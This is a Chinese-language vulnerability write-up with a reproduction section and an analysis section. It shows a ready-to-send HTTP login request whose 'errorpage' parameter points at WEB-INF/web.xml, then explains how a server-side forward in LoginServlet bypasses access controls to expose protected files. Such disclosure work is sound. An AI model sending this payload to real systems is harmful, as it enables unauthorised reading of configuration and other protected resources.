 # 漏洞复现

```
POST /login HTTP/1.1
Host: 127.0.0.1:8081
Content-Length: 99
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: __qypid=""; JSESSIONID=B9F80FA819D6FD8F5361D79113F8ABE0
Connection: close

op=verify%7Clogin&targetpage=&errorpage=WEB-INF/web.xml&mark=&tzo=480&username=admin&password=admin
```

![image-20230825103243872](images/1.png)

# 漏洞分析

在LoginServlet的doPost方法中，当登陆验证失败的时候会抛出一个AuthenticationException异常

![image-20230825131113331](images/2.png)

在结尾的时候捕获了这个异常，并进行了跳转处理

![image-20230825131252837](images/3.png)

这里处理跳转的时候通过forward进行转发，但是其中的errorpage是web端传入的参数是可控的，导致可以访问到web目录下的任意资源

forward是一个服务端的跳转，请求生命周期还在服务端，没有真正发送给客户端浏览器。

换句话说,请求被转发到目标资源时，还处于内部调用状态，没有经过web容器的安全访问控制。

而我们知道,web容器的访问安全控制主要有以下两方面:

1. web.xml中配置的安全约束,如可访问的资源路径等
2. 认证和授权,限制非法用户访问内部资源

但是forward时,以上两项都会被绕过:

1. forward可以直接访问任意资源路径,不经web.xml限制
2. 请求交给目标资源处理时,还是用原始请求的用户身份,没有重新经过认证和授权

这就导致了一个安全隐患,内部资源可能会被非法访问。
